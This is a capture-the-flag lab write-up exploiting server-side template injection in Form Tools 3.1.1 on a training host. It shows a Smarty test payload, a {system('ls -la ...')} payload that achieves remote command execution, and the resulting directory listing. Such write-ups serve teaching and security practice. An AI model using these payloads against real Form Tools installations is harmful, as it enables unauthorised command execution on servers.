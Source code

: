 ### Challenge

Another web app is running on [http://ssti.thm:8080/](http://ssti.thm:8080/). Can you achieve RCE and read the content of the hidden text file in the directory using SSTI?  
**Login credentials:**

- **Username**: admin
- **Password**: admin

Let's go to the site:

![](../images/Pasted%20image%2020250505180622.png)

As seen, we are dealing with something called `Form tools 3.1.1`, let's search any exploit regarding that version:

![](../images/Pasted%20image%2020250505180702.png)

We got `SSTI`:

![](../images/Pasted%20image%2020250505180725.png)

So, the `SSTI` is on the `Group Name` field on the add forms section, let's try:

![](../images/Pasted%20image%2020250505180844.png)

![](../images/Pasted%20image%2020250505180916.png)

Now, the vulnerability appears on the `View Group` functionality, since this is written on `php`, we can think that the template engine is `Smarty`, let's try a test payload:

```
{;}
```

![](../images/Pasted%20image%2020250505181159.png)

If we update:

![](../images/Pasted%20image%2020250505181142.png)

There we go, it is indeed `smarty`, let's achieve `rce`:

```
{system("ls -la /var/www/html/")}
```

```
total 100drwxrwxr-x 12     1000     1000  4096 May 19  2024 .drwxr-xr-x  1 root     root      4096 Mar 17  2022 ..-rw-r--r--  1     1000     1000  6148 Feb 27  2023 .DS_Store-rw-rw-r--  1     1000     1000   176 Feb 27  2023 .gitattributes-rw-rw-r--  1     1000     1000   218 Feb 27  2023 .gitignore-rw-rw-r--  1 www-data www-data    18 May 19  2024 105e15924c1e41bf53ea64afa0fa72b2.txt-rw-rw-r--  1 www-data www-data 15145 Feb 27  2023 LICENSE.txtdrwxrwxr-x  8 www-data www-data  4096 Feb 27  2023 admindrwxrwxrwx  2 www-data www-data  4096 May  5 23:05 cachedrwxrwxr-x  4 www-data www-data  4096 Feb 27  2023 clients-rw-rw-r--  1 www-data www-data   705 Feb 27  2023 error.php-rw-rw-r--  1 www-data www-data  1457 Feb 27  2023 forget_password.phpdrwxrwxr-x 14 www-data www-data  4096 May 19  2024 global-rw-rw-r--  1 www-data www-data  2209 Feb 27  2023 index.phpdrwxrwxr-x  2 www-data www-data  4096 Feb 27  2023 installdrwxrwxr-x 10 www-data www-data  4096 Feb 27  2023 modules-rw-rw-r--  1 www-data www-data  1659 Feb 27  2023 process.phpdrwxrwxr-x  2 www-data www-data  4096 Feb 27  2023 reactdrwxrwxr-x  5 www-data www-data  4096 Feb 27  2023 themesdrwxrwxrwx  2 www-data www-data  4096 Feb 27  2023 uploaddrwxrwxr-x  7 www-data www-data  4096 Feb 27  2023 vendordrwxrwxr-x  7 www-data www-data  4096 Feb 27  2023 vendor
```
